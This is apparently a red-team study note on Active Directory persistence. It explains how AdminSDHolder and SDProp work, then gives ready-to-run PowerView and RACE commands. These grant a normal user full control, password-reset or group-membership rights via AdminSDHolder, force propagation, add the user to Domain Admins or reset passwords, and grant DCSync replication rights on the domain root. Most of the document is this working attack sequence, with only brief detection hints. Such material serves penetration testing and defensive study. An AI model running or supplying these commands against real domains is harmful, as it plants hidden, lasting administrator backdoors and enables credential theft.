

> [!abstract] Active Directory Persistence: ACL Modification & AdminSDHolder
> The **ACL (Access Control List) Modify** persistence technique involves altering the permissions of files, directories, or AD objects to maintain unauthorized access. A prime target in Active Directory is the **AdminSDHolder** object. By modifying its ACL, an attacker can grant a normal user persistent control over highly privileged groups (like Domain Admins), bypassing standard security resets.
> **MITRE ATT&CK Mapping:** [T1098 - Account Manipulation](https://attack.mitre.org/techniques/T1098/) | [T1222 - File and Directory Permissions Modification](https://attack.mitre.org/techniques/T1222/)

![[Pasted image 20241225163942.png]]
![[Pasted image 20241225204850.png]]

---

## 1. Understanding AdminSDHolder & SDProp

> [!info] What is AdminSDHolder?
> **AdminSDHolder** (Admin Security Descriptor Holder) is a special container object in Active Directory located at `CN=AdminSDHolder,CN=System,DC=domain,DC=com`. It acts as a security template for highly privileged accounts and groups.
> 
> **Protected Groups:**
> Accounts and groups like **Domain Admins**, **Enterprise Admins**, **Schema Admins**, and **Administrators** are considered "protected". Any account with the `adminCount=1` attribute falls into this category.
> 
> **The SDProp Process:**
> The **Security Descriptor Propagation (SDProp)** process runs on the Domain Controller every 60 minutes (by default). It:
> 1. Copies the ACL from the `AdminSDHolder` object.
> 2. Compares it against the ACLs of all protected accounts and groups.
> 3. **Overwrites** any custom permissions on protected accounts with the AdminSDHolder template.
> 
> *Note: This means if you grant a user access to a Domain Admin, SDProp will remove it in 60 minutes. But if you grant access to AdminSDHolder itself, it becomes persistent.*



---

## 2. Attack Surface: AdminSDHolder Persistence

> [!warning] Privilege Required: Domain Admin
> To perform this attack, you must execute the commands as a Domain Admin.

### Step 1: Grant Permissions to AdminSDHolder

> [!bug]+ Grant Full Control or Special Privileges
> **PowerSploit (PowerView):**
> ```powershell
> # Full Control
> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=adolf,dc=local' -PrincipalIdentity NormalUserName -Rights All -PrincipalDomain adolf.local -TargetDomain adolf.local -verbose
> 
> # Reset Password Option
> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=adolf,dc=local' -PrincipalIdentity username -Rights ResetPassword -PrincipalDomain adolf.local -TargetDomain adolf.local -verbose
> 
> # Add Member Option
> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=adolf,dc=local' -PrincipalIdentity username -Rights WriteMembers -PrincipalDomain adolf.local -TargetDomain adolf.local -Verbose
> ```
> *Resource:* [PowerSploit Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/)
> 
> **RACE Toolkit:**
> ```powershell
> Set-DCPermissions -Method AdminSDHolder -SAMAccountName NormalUserName -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=Adolf,DC=local' -Verbose
> ```
> *Resource:* [RACE Toolkit](https://github.com/samratashok/RACE)
> 
> *Note: This modification can also be performed via GUI (Active Directory Users and Computers - Advanced Features).*
> 
> 
> ![[Pasted image 20241225213949.png]]

### Step 2: Force SDProp (Optional - Avoid waiting 60 mins)
Instead of waiting 60 minutes for the next SDProp cycle, you can force it remotely on the Domain Controller using PSRemoting.

> [!tip]+ Forcing SDProp
> ```powershell
> # 1. Create a PS Session to the DC
> $Session = New-PSSession -ComputerName DomainController
> 
> # 2. Execute Invoke-SDPropagator.ps1 on the DC
> Invoke-Command -Session $Session -FilePath C:\Users\Public\Invoke-SDPropagator.ps1
> Invoke-Command -ScriptBlock { Invoke-SDPropagator -ShowProgress -Verbose -TimeOutMinutes 1 } -Session $Session
> ```

### Step 3: Verify the Normal User Permissions

> [!success]+ Check Inherited Rights on Domain Admins
> **PowerSploit (PowerView):**
> ```powershell
> # Verify if the normal user (e.g., 'CNA') now has rights on 'Domain Admins'
> Get-DomainObjectACL -Identity 'Domain Admins' -ResolveGUIDs | % {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -Match "CNA"}
> ```

### Step 4: Abuse the Granted Permissions

> [!danger]+ Exploiting the New Access
> **Example 1: Add user to Domain Admins (Requires WriteMembers or Full Control)**
> ```powershell
> Add-DomainGroupMember -Identity 'Domain Admins' -Members cna -Verbose
> ```
> 
> **Example 2: Reset a Domain Admin's Password (Requires ResetPassword right)**
> ```powershell
> # PowerView
> Set-DomainUserPassword -Identity cna -AccountPassword (ConvertTo-SecureString "password122" -AsPlainText -Force) -Verbose
> 
> # AD Module
> Set-ADAccountPassword -Identity cna -NewPassword (ConvertTo-SecureString "password122" -AsPlainText -Force) -Verbose
> ```

---

## 3. Attack Surface: DCSync via ACL Modification

![[Pasted image 20241225182553.png]]

If an attacker modifies the ACL on the Domain Head (`DC=domain,DC=local`) to grant a normal user specific replication permissions, that user can execute a **DCSync attack**. Unfortunately, the Domain Head object is not protected by AdminSDHolder, making this a highly persistent backdoor.

> [!warning] Permissions Needed for DCSync
> By default, Domain Admin privileges are required to sync credentials from a DC. However, granting the following extended rights to a normal user allows them to perform DCSync:
> 
> - **DS-Replication-Get-Changes** (GUID: `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`)
> - **DS-Replication-Get-Changes-All** (GUID: `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`)
> - **DS-Replication-Get-Changes-In-Filtered-Set** (GUID: `89e95b76-444d-4c62-991a-0facbeda640c`) *Optional*

### Step 1: Check Current User Permissions
Verify if your current user already has `GenericAll` or replication rights on the domain root.

> [!example]+ Enumerate Domain Root ACL
> ```powershell
> Get-DomainObjectAcl -SearchBase "DC=adolf,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -Match 'replication-get') -or ($_.ActiveDirectoryRights -Match 'GenericAll')} | % {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -Match "cna"}
> ```

### Step 2: Grant DCSync Rights to a Normal User

> [!bug]+ Backdooring the Domain with DCSync Rights
> **PowerSploit (PowerView):**
> ```powershell
> Add-DomainObjectAcl -TargetIdentity 'dc=adolf,dc=local' -PrincipalIdentity NormalUserName -Rights DCSync -PrincipalDomain adolf.local -TargetDomain adolf.local -verbose
> ```
> *Note: This action is logged with Event Code 4662 (An operation was performed on an object).*

